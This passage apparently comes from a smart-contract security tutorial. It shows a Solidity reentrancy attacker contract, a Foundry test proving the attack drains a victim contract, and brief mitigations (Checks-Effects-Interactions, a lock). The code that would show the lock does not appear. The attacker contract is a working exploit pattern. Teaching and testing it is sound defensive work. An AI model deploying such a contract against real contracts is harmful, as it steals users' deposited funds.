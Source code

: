 ```solidity
contract ReentrancyAttacker {
    ReentrancyVictim victim;

    constructor(ReentrancyVictim _victim) {
        victim = _victim;
    }

    function attack() public payable {
        victim.deposit{value: 1 ether}();
        victim.withdrawBalance();
    }

    receive() external payable {
        if (address(victim).balance >= 1 ether) {
            victim.withdrawBalance();
        }
    }
}
```

Using Foundry to prove it

```solidity
function test_reenter() public {
        // User deposits 5 ETH
        vm.prank(victimUser);
        victimContract.deposit{value: amountToDeposited}();

        // We assert the user has their balance
        assertEq(victimContract.userBalance(victimUser), amountToDeposited);

        // // Normally, the user could now withdraw their money if they like
        // vm.prank(victimUser);
        // victimContract.withdrawBalance();

        // But... we get attacked!
        vm.prank(attackerUser);
        attackerContract.attack{value: 1 ether}();

        assertEq(victimContract.userBalance(victimUser), amountToDeposited);
        assertEq(address(victimContract).balance, 0);

        vm.prank(victimUser);
        vm.expectRevert();
        victimContract.withdrawBalance();
    }
```

#### Mitigation

→ Follow CEI: Check Effects Interaction (other patterns are CEII or FRE-PI)

→ Put a lock in the function, like the following code at the beginning of the function
